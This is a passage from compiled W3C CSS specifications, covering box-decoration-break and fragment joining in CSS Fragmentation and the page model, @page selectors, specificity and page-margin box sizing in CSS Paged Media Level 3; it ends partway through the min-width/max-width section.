- how the background positioning area [CSS-BACKGROUNDS-3] (and mask positioning area [CSS-MASKING-1], shape reference box [CSS-SHAPES-1], etc.) is derived from or duplicated across the box fragments and how the element’s background is drawn within them.

Values have the following meanings:

****clone****

: Each box fragment is independently wrapped with the border, padding, and margin. The `border-radius` and `border-image` and `box-shadow`, if any, are applied to each fragment independently. The background is drawn independently in each fragment of the element. A no-repeat background image will thus be rendered once in each fragment of the element.

  > **Note:** Cloned margins are [truncated](#css-break-4:break-margins) on block-level boxes.

****slice****

: The effect is as though the element were rendered with no breaks present, and then sliced by the breaks afterward: no border and no padding are inserted at a break; no box-shadow is drawn at a broken edge; and backgrounds, `border-radius`, and the `border-image` are applied to the geometry of the whole box as if it were unbroken.


Two possibilities for `box-decoration-break`: on the left, the value `slice`, on the right the value `clone`.

UAs should also apply `box-decoration-break` to control rendering at bidi-imposed breaks—​i.e. when bidi reordering causes an inline to split into non-contiguous fragments—​and/or at display-type–imposed breaks—​i.e. when a higher-level display type (such as a block-level box / [column spanner](#css-multicol-2:spanning-columns)) splits an incompatible ancestor (such as an inline box / block container). Otherwise such breaks must be handled as `slice`. See [Applying the Bidirectional Reordering Algorithm](#css-writing-modes-4:bidi-algo) in [CSS Writing Modes](#css-writing-modes-4:text-direction), [CSS2§9.2 Block-level elements and block boxes](#css2:box-gen), and [CSS Multi-column Layout §6 Spanning Columns](#css-multicol-2:spanning-columns).

> **Note:** For inline elements, which side of a fragment is considered the broken edge is determined by the parent element’s inline progression direction. For example, if an inline element whose parent has `direction: rtl` breaks across two lines, the *left* edge of the fragment on the first line will be the broken edge. (Note in particular that neither the element’s own `direction` nor its containing block’s `direction` is used.) See [CSS-WRITING-MODES-3].

##### 5.4.1.  Joining Boxes for `slice` {#css-break-4:joining-boxes}

For `box-decoration-break: slice`, backgrounds (and `border-image`) are drawn as if applied to a composite box consisting of all of the box’s fragments reassembled in visual order. This theoretical assembly occurs after the element has been laid out (including any justification, bidi reordering, page breaks, etc.). To assemble the composite box...

**For boxes broken across lines**

: First, fragments on the same line are connected in visual order. Then, fragments on subsequent lines are ordered according to the element’s inline base direction and aligned on the element’s dominant baseline. For example, in a left-to-right containing block (`direction` is `ltr`), the first fragment is the leftmost fragment on the first line and fragments from subsequent lines are put to the right of it. In a right-to-left containing block, the first fragment is the rightmost on the first line and subsequent fragments are put to the left of it.

**For boxes broken across columns**

: Fragments are connected as if the column boxes were glued together in the block flow direction of the multi-column container.

**For boxes broken across pages**

: Fragments are connected as if page content areas were glued together in the block flow direction of the root element.

**For boxes broken across regions**

: Fragments are connected as if region content areas were glued together in the block flow direction of the principal writing mode of the region chain.

If the box fragments have different widths (heights, if the fragments are joined horizontally), then each piece draws its portion of the background assuming that the whole element has the same width (height) as this piece. However, if the used height (width) of an image is derived from the width (height) of the box, then it is calculated using the widest fragment’s width and maintained as a fixed size. This ensures that right-aligned images stay aligned to the right edge, left-aligned images stay aligned to the left edge, centered images stay centered, and stretched images cover the background area as intended while preserving continuity across fragments.

#### 5.5.  Transforms, Positioning, and Pagination {#css-break-4:transforms}

Fragmentation interacts with layout, and thus occurs *before* relative positioning [CSS2], transforms [CSS-TRANSFORMS-1], and any other graphical effects. Such effects are applied per fragment: for example, rotation applied to a fragmented box will calculate a rotation origin for each fragment and independently rotate that fragment around its origin. (The origin of an overflow-only fragment is determined as if that content were overflowing an empty box with zero margins/borders/padding at the start of the fragmentainer.) However, in order to reduce dataloss when printing, the separation and transfer of page boxes *should* occur last; thus a transformed fragment that spans pages *should* be sliced at the page breaks and print in its entirety rather than being clipped by its originating page.


A fixed-height box spanning 2.5 pages with overflow content spanning to a total of 4 pages. The transform origin of each fragment is the center of its border box; the fragment without a border box assumes a zero-height box at the start of the overflow.

Absolute positioning affects layout and thus interacts with fragmentation. Both the coordinate system and absolutely-positioned boxes belonging to a containing block will fragment across fragmentainers in the same fragmentation flow as the containing block.

UAs are not required to correctly position boxes that span a fragmentation break and whose block-start edge position depends on where the box’s content fragments.

UAs with memory constraints that prevent them from manipulating an entire document in memory are not required to correctly position absolutely-positioned elements that end up on a previously-rendered page.

---

## CSS Paged Media Module Level 3 {#css-page-3}

- **Shortname:** `css-page-3`
- **Editor's Draft:** [https://drafts.csswg.org/css-page-3/](https://drafts.csswg.org/css-page-3/)
- **Published TR:** [https://www.w3.org/TR/css-page-3/](https://www.w3.org/TR/css-page-3/)
- **W3C Status:** ED (revising)
- **Last Edited:** 2026-10-21

### 1.  Introduction {#css-page-3:intro}

Paged media (e.g., paper, transparencies, photo album pages, pages displayed on computer screens as printed output simulations) differ from continuous media in that the content of the document is split into one or more discrete static display surfaces. To handle pages, CSS3 Paged Media describes how:

- [page breaks](#css-page-3:page-breaks) are created and avoided;
- the page properties such as size, orientation, margins, border, and padding are specified;
- headers and footers are established within the page margins; and
- content such as page counters are placed in the headers and footers;

This module defines a [page model](#css-page-3:page-model) that specifies how a document is formatted within a rectangular area, called the [page box](#css-page-3:page-box-page-rule), that has finite width and height.

Although CSS3 does not specify how user agents transfer page boxes to sheets, it does include certain mechanisms for telling user agents about the intended page sheet [size and orientation](#css-page-3:page-size). In the general case, CSS3 assumes that one page box will be transferred to one surface of similar size.

> **Note:** The [CSS-BREAK-4] specification addresses controls over fragmentation (pagination), such as the `break-before`, `break-after`, `break-inside`, `widows`, and `orphans` properties.

#### 1.1.  Value Definitions {#css-page-3:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Page Terminology {#css-page-3:page-terms}

The following terminology and accompanying diagrams help to describe the page model:

****Page sheet****

:  The page sheet is one surface of the physical medium. The illustration to the right shows a representation of the upper-left corner of a page sheet.

****Printable and non-printable areas****

: The non-printable area is the area of a page sheet that a physical device such as a printer is not capable of marking reliably, usually due to the printer’s paper handling mechanism. This value is printer dependent and is usually a small region along each edge of the page sheet. The printable area is the area of page sheet that a printer *is* capable of marking reliably. The size of the printable area is the size of the page sheet reduced by the size of the non-printable area. A user agent may not know the dimensions of this area for a particular printing device; but when its dimensions are known, user agents may adjust the formatting of the document so that content falls within the printable area. How this adjustment is accomplished is device dependent within the constraints expressed in the sections [§ 7.4 Rendering page boxes that do not fit a page sheet](#css-page-3:renderingpages) and [§ 3.2 Content outside the page box](#css-page-3:content-outside-box).

****Page Orientation****

: The page orientation is defined by comparing the length of the edges of a page box. The page box is a rectangle with two perpendicular edges called the long edge and the short edge. The length of the long edge is always greater than or equal to the length of the short edge. When the page box is square, the two edges are of the same length and either can be used as the long edge with the other being the short edge. This specification defines page orientations of `portrait` and `landscape`.

****Portrait Orientation****

: A portrait page’s height is greater than or equal to its width. Horizontal elements are parallel to the short edge and vertical elements to the long edge.

****Landscape Orientation****

: A landscape page’s width is greater than or equal to its height. Horizontal elements are parallel to the long edge and vertical elements to the short edge.

  > **Note:** Note that CSS3 makes no distinction between landscape and reverse-landscape orientations. However, future versions of CSS may do so. UAs should consider, when formatting for duplexed printing, the binding edge, page progression, and ease of reading when choosing between landscape and reverse-landscape renderings.

****Duplex Printing****

: Duplex printing prints one page box per side of a page sheet and uses both sides of the page sheet. This module provides no ability to specify whether a document is duplex printed, but the concept of left and right pages is based on the assumption that the document is duplex printed, regardless of whether or not it actually is.

****Binding Edge****

: The binding edge is the edge of the page box that is toward the binding if the material is bound. The binding edge often has a larger margin than the opposite edge to provide for the space used by the binding. The binding edge can be any of the four edges. However, page sheets are customarily bound so that the binding edge of page boxes with portrait orientation is vertical. This module provides no method to specify the binding edge. In duplex printing, the binding edge is on opposite sides of the page box for the left and right pages.

****Facing Pages****

: Facing pages are two sequential pages such that when the document is duplex printed they are on separate sheets of paper. Typically, the earlier page will be the back side of one sheet and the later page will be the front side of another. They are usually laid out so that the binding edges of facing pages are vertical and adjacent when the pages are placed in their normal reading orientation.

****Left Page****

: A page that would be on the left if it is part of a pair of facing pages as typically laid out. Page layouts for documents using a left-to-right page progression have the earlier of the facing pages on the left. Rules specific to the left page can be specified using the `:left` page selector.

****Right Page****

: A page that would be on the right if it is part of a pair of facing pages as typically laid out. Page layouts for documents using a right-to-left page progression have the earlier of the facing pages on the right. Rules specific to the right page can be specified using the `:right` page selector.

### 3. The Page Model {#css-page-3:page-model}

In the paged media formatting model, the document is transferred into one or more page boxes. The **page box** is a specialized CSS box that maps to a rectangular print media surface, such as a page of paper. It is roughly analogous to the [viewport](#css2:viewport). 

As with other CSS [boxes](#css2), a page box consists of margin, border, padding, and content areas. The content and margin areas of a page box have special functions:

> **Issue:** In CSS 2.1, both the page box and page area are simple rectangles. Neither is a CSS box with margins, borders, and padding. This CSS box should be distinct from the page box and page area, which would be its margin area and content area, respectively. Naming ideas?

- The content area of a page box is called the **page area**. The content of the document is flowed into one or more page boxes. The page area acts as a container for all the boxes generated by the root element and its descendants that are laid out within a given page box. The edges of the page area on the first page establish the rectangle that is the initial containing block of the document.
- The margin area of a page box is divided into 16 **page-margin boxes**. Each page-margin box has its own margin, border, padding and content areas. Page-margin boxes are typically used to display running headers and footers.

The properties of a page box are determined by properties declared within the page context, which is the [declaration block](#css2:x14) of the `@page` rule. Similarly the properties of a page-margin box are determined by properties declared within its margin context. Declarations in the page context can affect the page box and/or inherit to the page-margin boxes, but they do not apply to or inherit into the document’s root element or other content.

The containing block of the page box is specified using the `size` property in the page context. The width and horizontal margins of the page box are then calculated exactly as for a [non-replaced block element in normal flow](#css2:blockwidth). [CSS2] The height and vertical margins of the page box are calculated analogously (instead of using the block height formulas). In both cases if the values are over-constrained, instead of ignoring any margins, the containing block is resized to coincide with the margin edges of the page box.

#### 3.1.  Page Backgrounds and Painting Order {#css-page-3:painting}

When drawing a page of content, the page layers are painted in the following painting order (bottommost first):

1. page background
2. document canvas
3. page borders
4. document contents
5. page-margin boxes

In the page model, the page background behaves similar to the root background: its background painting area is the bleed area, which covers the entire page box, including its margins (regardless of `background-clip`). Page backgrounds are anchored within the page box’s padding area by default (and honor `background-origin` if the UA supports [CSS-BACKGROUNDS-3]). However if `background-attachment` is `fixed` then the image is positioned relative to the page box including its margins (i.e. the background positioning area is the page’s margin box).

The document canvas background is drawn as the page box’s background: by default its background painting area covers the page box’s border box, and for UAs that support [CSS-BACKGROUNDS-3], follows the `background-clip` value specified on the root element. It remains, however, positioned with respect to the root element or page area as usual.

With respect to the page-margin boxes, the document canvas, page borders, and all of the document contents are treated as a single element with a `z-index` value of `0` that establishes a stacking context [CSS2]: the page-margin boxes never interleave with parts of the document content or between the content and the canvas. They may only paint in front of the document content or behind the document canvas. The page background is always painted underneath everything else.

The `z-index` property applies to page-margin boxes. Since the `position` property does not apply to page-margin boxes, `z-index` always affects page-margin boxes as if they were positioned elements regardless of the `position` property’s value. Each page-margin boxes always establishes a stacking context.

The default painting order, or [CSS2.1 Appendix E](#css2) "tree order", of page-margin boxes with respect to each other is as follows:

1. `@top-left-corner`
2. `@top-left`
3. `@top-center`
4. `@top-right`
5. `@top-right-corner`
6. `@right-top`
7. `@right-middle`
8. `@right-bottom`
9. `@bottom-right-corner`
10. `@bottom-right`
11. `@bottom-center`
12. `@bottom-left`
13. `@bottom-left-corner`
14. `@left-bottom`
15. `@left-middle`
16. `@left-top`

> **Note:** Start with `@top-left-corner`, then go clockwise. This order is arbitrary but can be overridden with `z-index`. It only has a visible effect when page-margin boxes overlap, which should not happen in most cases.

#### 3.2. Content outside the page box {#css-page-3:content-outside-box}

When formatting content in the page model, some content may end up outside the page box. For example, an element whose `white-space` property has the value `pre` can generate a box that is wider than the page box. As another example, when boxes are positioned absolutely or relatively, they may end up in "inconvenient" locations. For example, images may be placed on the edge of the page box or 100,000 meters below the page box.

A specification for the exact formatting of such elements lies outside the scope of this document. However, it is recommended that authors and user agents observe the following general principles concerning content outside the page box:

- Content should be allowed slightly beyond the page box to allow pages to "bleed".
- User agents *SHOULD* avoid generating a large number of content-empty pages to honor the positioning of elements (e.g., printing 100 blank pages is probably neither the author’s nor the user’s intent). A **Content-empty page** is a page box whose page area contains no printable content other than backgrounds and/or borders. A page box whose page area contains generated content, or content whose visibility is `hidden`, or invisible content such as a zero-width space is not a content-empty page. On the other hand, a page containing only a background and/or borders and/or page-margin box content *is* a content-empty page.

  > **Note:** however, that generating a small number of empty page boxes is sometimes necessary to honor the forced-break values for `page-break-before`/`break-before` and `page-break-after`/`break-after`. [CSS2] [CSS-BREAK-3]
- Authors *SHOULD NOT* position elements in inconvenient locations just to avoid rendering them. Instead:

  - To suppress box generation entirely, set the `display` property to `none`.
  - To make a box invisible, set the `visibility` property.
- This specification does not define how boxes positioned outside the page box are handled. Possibilities include discarding them or creating page boxes for them at the end of the document.

#### 3.3. Page Progression {#css-page-3:progression}

CSS distinguishes between left pages and right pages on all documents, whether they are printed duplex or not. Each left page is followed by a right page and vice versa. Left and right pages can be styled differently with the [`:left` and `:right` pseudo-classes](#css-page-3:left-right-first).

Whether the first page of a document is a left page or a right page depends on the page progression of the document. The **page progression** is the direction in which the printed pages of a document would be sequenced when laid out side-to-side. For example, English and horizontally-set Japanese typically progress from left to right, whereas Arabic and vertically-set Japanese pages typically progress from right to left.

The page progression direction is determined as follows:

- If text is laid out in horizontal lines, the page progression is the same as the inline base direction.
- If text is laid out in vertical lines, the page progression is the same as the block flow direction.

If the UA supports the `direction` and `writing-mode` properties from the CSS 3 Writing Modes Module [CSS-WRITING-MODES-3], it must [determine](#css-writing-modes-4:page-direction) the page progression is determined by the principal writing mode.

In documents with a left-to-right page progression the first page of the document is a right page, and vice versa. To explicitly force a document to begin printing on a left or right page, authors can specify a `break-before` value that that propagates a page break to the root. [CSS-BREAK-3] The UA must suppress the first (empty) page(s) in this case (and the `:first` pseudo-class matches the first printed page).

> **Example:** ```
> html { break-before: always }
> ```
>
> For an HTML document with a left-to-right page progression, the above style rule will cause the first page of the document to print on a ':left' page
>
> ```
> html { break-before: left }
> ```
>
> For an HTML document, the above style rule will cause the first page of the document to print on a ':left' page, regardless of the page progression.

### 4.  Page Selectors and the Page Context {#css-page-3:page-selector-and-context}

#### 4.1.  The @page Rule {#css-page-3:at-page-rule}

Authors can specify various aspects of a page box, such as its dimensions, orientation, and margins, within an **@page** rule. `@page` rules are allowed wherever [rule-sets](#css2:rule-sets) are allowed. An `@page` rule consists of the keyword `@page`, an optional comma-separated list of page selectors and a block of declarations (said to be in the **page context**). An `@page` rule can also contain other at-rules, interleaved between declarations. The current level of this specification only allows margin at-rules inside `@page`.

`@page` rules without a selector list apply to every page. Other `@page` rules apply to pages that match at least one of their selectors. Properties declared within the page context apply to the page box.

If an error is encountered during the processing of a declaration block within a page or a margin context, the [Rules for handling parsing errors](#css2:parsing-errors) apply; that is, valid declarations within the block are applied.

#### 4.2. Page selectors {#css-page-3:page-selectors}

A **page selector** is made of either a page type selector or a page pseudo-class, followed by zero or more additional page pseudo-classes. No whitespace is allowed between components of a selector. The `<page-selector>` grammar and examples can be found below.

A page selector is said to **match** a given page if and only if all of its components match the page.

A **page type selector** is a case-sensitive [CSS identifier](#css2:value-def-identifier) [CSS2]. It matches pages of the [named page type](#css-page-3:using-named-pages) generated by the `page` property.  A page type name of `auto` ([ASCII case-insensitive](#css2:characters)) does not make the rule invalid, but must never match.

A **page pseudo-class** is [ASCII case-insensitive](#css2:characters) and has the same syntax as [pseudo-classes](#selectors-4:pseudo-classes) in regular Selectors. [SELECT] The various page pseudo-classes are defined below.

##### 4.2.1.  Spread pseudo-classes: `:left`, `:right` {#css-page-3:spread-pseudos}

When printing double-sided documents, left and right pages are often formatted differently. This can be expressed by using the `:left` and `:right` page pseudo-classes.

All pages are automatically classified by user agents as either left pages or right pages, based on [page progression](#css-page-3:progression). The **:left** and **:right** pseudo-classes only match left or right pages, respectively.

> **Example:** The following example creates left and right binding edges using these pseudo-classes:
>
> ```
> @page :left {
> margin-left: 3cm;
> margin-right: 4cm;
> }
>
> @page :right {
> margin-left: 4cm;
> margin-right: 3cm;
> }
> ```

If different declarations have been given for left and right pages, the user agent must honor these declarations even if the user agent does not transfer the page boxes to left and right sheets (i.e., a printer that only prints on one side of the medium must nevertheless produce correctly formatted output).

> **Note:** ***Note.** Adding declarations to the `:left` or `:right` pseudo-class does not necessarily influence whether the document comes out of the printer double- or single-sided (which is outside the scope of this specification).*

##### 4.2.2.  First-page pseudo-class: `:first` {#css-page-3:first-pseudo}

The **:first** pseudo-class matches the first printed page of a document.

> **Example:** ```
> @page { margin: 2cm } /* All margins set to 2cm */
>
> @page :first {
> margin-top: 10cm /* Top margin on first page 10cm */
> }
> ```

##### 4.2.3.  Blank-page pseudo-class: `:blank` {#css-page-3:blank-pseudo}

The **:blank** pseudo-class matches content-empty pages that appear as a result of [forced page breaks](#css-break-4:forced-breaks).

> **Note:** Only the `left`, `right`, `recto` and `verso` values of the `break-before` and `break-after` properties can generate pages that match `:blank`.

> **Example:** In this example, forced page break may occur before `h1` elements.
>
> ```
> h1 { break-before: left }
>
> @page :blank {
>   @top-center { content: "This page is intentionally left blank" }
> }
> ```

A page matched by `:blank` can also be matched by other page pseudo-classes.

> **Example:** If headers have been specified on all right pages, a blank right page will be matched by both `:blank` and `:right`. Therefore, margin boxes set on right pages will have to be removed unless they are wanted on blank pages. Here is an example where the top center header is removed from blank pages, while the page number remains:
>
> ```
> h1 { break-before: left }
>
> @page :blank {
>   @top-center { content: none }
> }
>
> @page :right {
>   @top-center { content: "Preliminary edition" }
>   @bottom-center { content: counter(page) }
> }
> ```
>
> Due to the higher specificity of `:blank` over `:right`, the top center header is removed even if `content: none` comes before `content: "Preliminary edition"`.

> **Note:** ***Note.** Future versions of CSS may include other page pseudo-classes.*

#### 4.3. @page rule grammar {#css-page-3:syntax-page-selector}

`@page` rules are parsed according to the following grammar, plus the additional rules noted below:

```css
@page = @page <page-selector-list>? { <declaration-rule-list> }
<page-selector-list> = <page-selector>#
<page-selector> = [ <ident-token>? <pseudo-page>* ]!
<pseudo-page> = : [ left | right | first | blank ]

/* Margin rules */
@top-left-corner = @top-left-corner { <declaration-list> };
@top-left = @top-left { <declaration-list> };
@top-center = @top-center { <declaration-list> };
@top-right = @top-right { <declaration-list> };
@top-right-corner = @top-right-corner { <declaration-list> };
@bottom-left-corner = @bottom-left-corner { <declaration-list> };
@bottom-left = @bottom-left { <declaration-list> };
@bottom-center = @bottom-center { <declaration-list> };
@bottom-right = @bottom-right { <declaration-list> };
@bottom-right-corner = @bottom-right-corner { <declaration-list> };
@left-top = @left-top { <declaration-list> };
@left-middle = @left-middle { <declaration-list> };
@left-bottom = @left-bottom { <declaration-list> };
@right-top = @right-top { <declaration-list> };
@right-middle = @right-middle { <declaration-list> };
@right-bottom = @right-bottom { <declaration-list> };
```

In addition, the following rules apply:

- No whitespace is allowed between the productions in `<page-selector>` or `<pseudo-page>` (similar to the rule for `<compound-selector>`).
- The `@page` rule can only contain page properties and margin at-rules.
- The margin at-rules can only contain page-margin properties.

> **Example:** The following are examples of page selectors (declaration block intentionally left blank)
>
> ```
> @page { ... }
> @page :left { ... }
> @page :right { ... }
> @page LandscapeTable { ... }
> @page CompanyLetterHead:first { ... } /*  identifier and pseudo page. */
> @page:first { ... }
> @page toc, index { ... }
> @page :blank:first { ... }
> ```
>
> The following are examples of page-margin boxes where the declaration blocks are intentionally left blank.
>
> ```
> @page {
>   @top-left { ... /* document name */ }
>   @bottom-center { ... /* page number */}
> }
> @page :left { @left-middle { ... /* page number in left margin */ }}
> @page :right{ @right-middle { ... /* page number in right margins of right pages */}}
>
> @page :left { @bottom-left-corner { ... /* left page numbers */ }}
> @page :right { @bottom-right-corner { ... /* right page numbers */ }}
> @page :first { @bottom-left-corner { ... /* empty footer on 1st page */ }
> @bottom-right-corner { ... /* empty footer */ } }
> ```

#### 4.4. Cascading in the page context {#css-page-3:cascading-and-page-context}

Declarations in page and margin contexts [cascade](#css2) just like declarations in style rule for elements.

The **specificity** of a page selector is computed in a manner analogous to the computations defined in the [Selectors](#css2) module:

- Count the number of page type names (= *f*)

  > **Note:** Given the syntax of page selectors, *f* can only ever be 0 or 1.
- Count the number of ':first' or ':blank' pseudo-classes (= *g*)
- Count the number of ':left' or ':right' pseudo-classes (= *h*)

> **Note:** Repeated occurrences of the same pseudo-classes are allowed and do increase specificity.

Due to storage limitations, implementations may have limitations on the size of *f*, *g*, or *h*. If so, values higher than the limit must be clamped to that limit, and not overflow.

Specificities are compared by comparing the three components in order (*f*, *g*, *h*): the specificity with a larger *f* value is more specific; if the two *f* values are tied, then the two *g* values are compared, etc. If all the values are tied, the two specificities are equal.

> **Example:** Some page specificity calculation examples follow:
>
> ```
> @page { } /* specificity = (0,0,0) */
> @page :left { } /* specificity = (0,0,1) */
> @page :first { } /* specificity = (0,1,0) */
> @page :blank:left { } /* specificity = (0,1,1) */
> @page artsy { } /* specificity = (1,0,0) */
> @page artsy:left { } /* specificity = (1,0,1) */
> @page artsy:first { } /* specificity = (1,1,0) */
> ```

> **Example:** Consider the following usage example:
>
> ```
> @page :left {
>   margin-left: 4cm;
> }
>
> @page {
>   margin-left: 3cm;
> }
> ```
>
> Due to the higher specificity of the pseudo-class selector, the left margin on left pages will be 4cm and all other pages (the right-facing pages) will have a left margin of 3cm.

> **Example:** In this example, the higher specificity of the green rules wins over the red rule. Therefore the first page will have blue text in the top-left page-margin box and green text in the top-right page-margin box, while subsequent pages will have red text in the page-margin boxes.
>
> ```
> @page :first {
>   color: green;
>
>   @top-left {
>     content: "foo";
>     color: blue;
>   }
>   @top-right {
>     content: "bar";
>   }
> }
>
> @page { color: red;
>   @top-center {
>     content: "Page " counter(page);
>   }
> }
> ```

> **Example:** Page contexts cascade, so the following stylesheet would style pages with 25 millimeter margins and 14 point type in the page-margin boxes:
>
> ```
> @page { margin: 25mm;}
> @page { font-size: 14pt;}
> ```

### 5. Page-Margin Boxes {#css-page-3:margin-boxes}

Page-margin boxes are boxes within the page margin that, like pseudo-elements, can contain generated content.

Page-margin boxes can be used to create page headers and footers, which are portions of the page set aside for supplementary information such as the page number or document title.

> **Example:** Typically, a **page header** is located at the top of the page in documents with a predominately horizontal writing direction and on the side opposite the binding edge for documents with a predominately vertical writing direction. One possible design of page headers for horizontally written documents uses the `@top-left-corner`, `@top-left`, `@top-center`, `@top-right` and `@top-right-corner` page-margin boxes. Another design, for vertically written documents, could use the `@right-top`, `@right-middle`, and `@right-bottom` page-margin boxes for right facing pages and `@left-top`, `@left-middle`, and `@left-bottom` for left facing pages.
>
> The **page footer** is typically at the opposite end of the page from the page header. For example, the design of a horizontally written document with a page header at the top of the page could use the `@bottom-left-corner`, `@bottom-left`, `@bottom-center`, `@bottom-right` and `@bottom-right-corner` page-margin boxes as the page footer. The design of a vertically written document could use the page-margin boxes of the binding edge of the page for the page footer.

Page-margin boxes are positioned with respect to the page area and are independent of page orientation, for example the top page-margin boxes are above the page area in both portrait and landscape orientation. The various page-margin boxes are defined and illustrated in the diagram below:

| Box | Description | Placement |
| --- | --- | --- |
| top-left-corner | a fixed-size box defined by the intersection of the top and left margins of the page box |  |
| top-left | a variable-width box filling the top page margin between the top-left-corner and top-center page-margin boxes |  |
| top-center | a variable-width box centered horizontally between the page’s left and right border edges and filling the page top margin between the top-left and top-right page-margin boxes |  |
| top-right | a variable-width box filling the top page margin between the top-center and top-right-corner page-margin boxes |  |
| top-right-corner | a fixed-size box defined by the intersection of the top and right margins of the page box |  |
| left-top | a variable-height box filling the left page margin between the top-left-corner and left-middle page-margin boxes |  |
| left-middle | a variable-height box centered vertically between the page’s top and bottom border edges and filling the left page margin between the left-top and left-bottom page-margin boxes |  |
| left-bottom | a variable-height box filling the left page margin between the left-middle and bottom-left-corner page-margin boxes |  |
| right-top | a variable-height box filling the right page margin between the top-right-corner and right-middle page-margin boxes |  |
| right-middle | a variable-height box centered vertically between the page’s top and bottom border edges and filling the right page margin between the right-top and right-bottom page-margin boxes |  |
| right-bottom | a variable-height box filling the right page margin between the right-middle and bottom-right-corner page-margin boxes |  |
| bottom-left-corner | a fixed-size box defined by the intersection of the bottom and left margins of the page box |  |
| bottom-left | a variable-width box filling the bottom page margin between the bottom-left-corner and bottom-center page-margin boxes |  |
| bottom-center | a variable-width box centered horizontally between the page’s left and right border edges and filling the bottom page margin between the bottom-left and bottom-right page-margin boxes |  |
| bottom-right | a variable-width box filling the bottom page margin between the bottom-center and bottom-right-corner page-margin boxes |  |
| bottom-right-corner | a fixed-size box defined by the intersection of the bottom and right margins of the page box |  |

#### 5.1. At-rules for page-margin boxes {#css-page-3:margin-at-rules}

Page-margin boxes are created by margin at-rules inside the page context. Authors should put these rules after any declarations in the page context as legacy clients may not handle declarations after margin at-rules correctly.

A **margin at-rule** is an at-rule that identifies the page-margin box (e.g. `@top-left`) and a block of descriptors (said to be in the **margin context**).

> **Example:** The following style sheet establishes a page header containing the title ("Hamlet") on the left side and the page number, preceded by "Page ", on the right side:
>
> ```
> @page {
>   size: 8.5in 11in;
>   margin: 10%;
>
>   @top-left {
>     content: "Hamlet";
>   }
>   @top-right {
>     content: "Page " counter(page);
>   }
> }
> ```

#### 5.2. Populating page-margin boxes {#css-page-3:populating-margin-boxes}

As with the `:before` and `:after` pseudo-elements, a specified `content: normal` on a page-margin box computes to `none`. A page-margin box is **generated** if and only if the computed value of its `content` property is not `none`. Otherwise, no box is generated, as for elements with `display: none`.

> **Note:** The `display` property does not apply to page-margin boxes.

> **Example:** The following style sheet creates a green box in each corner of the page except the bottom-left corner.
>
> ```
> @page {
>   @top-left-corner { content: " "; border: solid green; }
>   @top-right-corner { content: url(foo.png); border: solid green; }
>   @bottom-right-corner { content: counter(page); border: solid green; }
>   @bottom-left-corner { content: normal; border: solid green; }
> }
> ```

#### 5.3. Computing Page-margin Box Dimensions {#css-page-3:margin-dimension}

The width and height of each page-margin box is determined by the rules below. These rules define the equivalent of CSS2.1 Sections 10.3 and 10.6 for page-margin boxes.

The rules for applying `min-height`, `max-height`, `min-width`, and `max-width` [CSS2] do apply to page-margin boxes and may imply a recalculation of the width, height, and/or margins if the dimensions resulting from the specified `width` or `height` violate their constraints. If the UA does not support the `min-height` or `min-width` properties then it must behave as if `min-height` and `min-width` were always zero.

##### 5.3.1.  Page-Margin Box Layout Terminology {#css-page-3:margin-box-terms}

In addition to the box model definitions in CSS2.1 [CSS2], and the sizing terms in CSS Sizing [CSS-SIZING-3], the following terms are defined for use in the subsequent page-margin box calculations:

****available width****

: The sum of the page’s left border width, left padding, page area width, right padding, and right border width. In other words, it is the distance between the page box’s left right border edges. This quantity is used when calculating dimensions of the top and bottom page-margin boxes.

****available height****

: The sum of the page’s top border width, top padding, page area height, bottom padding, and bottom border width. In other words, it is the distance between the page box’s top bottom border edges. This quantity is used when calculating dimensions of the left and right page-margin boxes.

****outer width****

: The width of the outer edge, as defined in [CSS-BOX-3].

****min-content width****

: Whichever of min-content block size or min-content inline size is the physical width.

****max-content width****

: Whichever of max-content block size or max-content inline size is the physical width.

****outer min width****

: Like the outer width, except the min-content width is used when the computed `width` is `auto`.

****outer max width****

: Like the outer width, except the max-content width is used when the computed `width` is `auto`.

The **containing block** for a page-margin box depends on its location:

For a corner page-margin box, it is the rectangle defined by the intersection of the two page margins meeting at that corner.

For all other page-margin boxes, the containing block is the rectangle formed by the encapsulating page margin minus the containing blocks of the adjacent corners' page-margin boxes. This means that the size of this containing block is given in one dimension by the used page margin and in the other dimension by the available width (for top and bottom page-margin boxes) or available height (for left and right page-margin boxes).

##### 5.3.2.  Page-Margin Box Variable Dimension Computation Rules {#css-page-3:variable-sizing}

The following rules apply to `@top-left`, `@top-center` and `@top-right` page-margin boxes, which are referred to as A, B, and C, respectively, in this section.

###### 5.3.2.1. Margins {#css-page-3:variable-auto-margins}

If the `margin-left` or `margin-right` property of any of the three boxes computes to `auto`, the used value is zero.

###### 5.3.2.2. Resolving `auto` widths {#css-page-3:variable-auto-sizing}

The following algorithm determines the used width of each box. For this purpose, boxes that are not generated are assumed to have a `width` and an outer width of zero.

> **Note:** The high-level goals are (in order of priority) to center the middle box (B) if it is generated, to minimize overflow and overlap, and to distribute space proportionally to the amount of content.

If the middle box (B) is not generated, distribute the available width to A and C as follows:

- If only one box has 'width: auto', its used width is resolved so that the sum of the outer widths equals available width.
- If A and C both have 'width: auto', distribute the space to each box as follows:

  1. If the sum of the outer max-content widths is less than the available width, call that difference the **flex space**. Calculate each box’s **flex factor** as proportional to its outer max-content width, and set its used outer width to: `max-content width + flex space × flex factor ÷ ∑flex factors`
  2. Otherwise if the sum of the outer min-content widths is less than the available width, call that difference the flex space calculate each box’s flex factor as proportional to its max-content width minus min-content width, and set its used outer width to: `min-content width + flex space × flex factor ÷ ∑flex factors`
  3. Otherwise, calculate its outer size as in the previous case, but set each box’s flex factor as proportional to its outer min-content width.

  In each case, both flex factors are assumed to be `1` if their sum is equal to zero.

If the middle box (B) is generated, determine the `auto` widths of A, B, and C as follows:

1. First, resolve any `auto` width of the middle box (B): Assume there are two boxes, B and AC, where each of AC’s dimensions is double the maximum of A and C. (This preserves B’s centering.) Distribute the space to these two boxes (B and the imaginary AC) as described for A and C [above](#css-page-3:flex-fit).
2. Then, resolve any `auto` widths of the side boxes (A and C) by setting that box’s outer width to `(available width − used outer widths of B) ÷ 2`

###### 5.3.2.3. Handling `min-width` and `max-width` {#css-page-3:variable-minmax}

The `min-width` and `max-width` properties [CSS2] apply to page-margin boxes in the variable dimension like on normal elements, except that the three boxes on the same side are considered together.

More precisely:

